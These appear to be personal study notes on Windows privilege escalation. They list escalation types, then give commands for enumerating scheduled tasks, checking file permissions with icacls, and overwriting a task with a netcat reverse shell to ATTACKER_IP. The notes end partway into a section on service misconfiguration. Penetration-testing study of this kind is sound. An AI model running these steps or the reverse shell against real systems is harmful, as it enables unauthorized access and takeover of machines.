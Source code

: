 --- ---

<h2>Type of Privilege Escalation</h2>

- Scheduled Task
- Service Misconfiguration
- Token & Migration
- Unattended Windows Installations
- Powershell History
- IIS Configuration
- Saved Windows Credentials

---

<h2>Scheduled Tasks</h2>

Looking into scheduled tasks on the target system, you may see a scheduled task that either lost its binary or it's using a binary you can modify.

Find all the schedued Tasks
```
> schtasks /query /fo list /v (ALL THE TASKS)
> schtasks /query /tn {TASK} /fo list /v (ONLY THE TASK)
```

Find the permision needed to edit the task file
```
icacls c:\tasks\{TASK NAME} (I = Inheritance) (F = Full Controle) (icacls = Tool to find permision)
type c:\tasks\{TASK NAME} (check what the task is about)
echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\{TASK} (Reverce Shell)
```

Set the attacking machine with a netcat server ready to lisent

```
schtasks /run /tn {TASK} (Launch the vulnerable task or wait until it run)
```

---

<h2>Service Misconfiguration (REVIEW)</h2>

Windows services are managed by the **Service Control Manager** (SCM). The SCM is a process in charge of managing the state of services as needed, checking the current status of any given service and generally providing a way to configure services.

Each service on a Windows machine will have an associated executable which will be run by the SCM whenever a service is started. It is important to note that service executables implement special functions to be able to communicate with the SCM, and therefore not any executable can be started as a service successfully. Each service also specifies the user account under which the service will run.

To better understand the structure of a service, let's check the apphostsvc service configuration with the `sc qc` command:

Command Prompt
```shell-session
C:\> sc qc apphostsvc
```
